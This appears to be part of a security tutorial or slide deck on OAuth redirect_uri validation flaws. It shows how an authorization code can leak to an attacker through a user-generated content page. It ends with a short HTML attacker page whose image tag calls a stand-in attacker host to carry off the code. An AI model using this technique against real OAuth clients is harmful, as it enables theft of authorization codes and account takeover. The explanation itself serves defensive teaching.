

Since you registered https://yourouauthclient.com as redirect_uri and the Oauth provider adopts an allowing subdirectory validation strategy, https://yououauthclient.com/usergeneratedcontent/attackerpage.html is a perfectly valid redirect_uri for your client.
Lets have a look on previous things we have learned:

Often, resource owners need to authorize an Oauth client only once. This means that all the subsequent calls will skip the manual consent screen as long as the server believes the request s is from the same client and for the same access rights.
People tend to trust companies that have proven records on security, so there is a good chance that this doesn’t switch the “anti-phishing alarm” on for the user.

That said, now that this is enough to “convince” the victim to click the crafted link and go through the authorization endpoint, the victim then will end up with something like
https://yourouauthclient.com/usergeneratedcontent/attackerpage.html?code=e8ou-yhh67-hbyhyh6777-jjyt7776gg

Note the code request parameter ends up being attached in the URI of the malicious post. you might be thinking that the attacker would need to have access to server-side processing in order to extract the code from that URI, functionality generally not available to user-generated content pages. Or perhaps the attacker would require the ability to inject arbitrary JavaScript into the page, which is often filtered out from user-generated content. However, let’s have a closer look at the code of attackerpage.html:

<html>
<h1> Authorization in progress </h1>
<img src=https://attackersite.com/>
</html>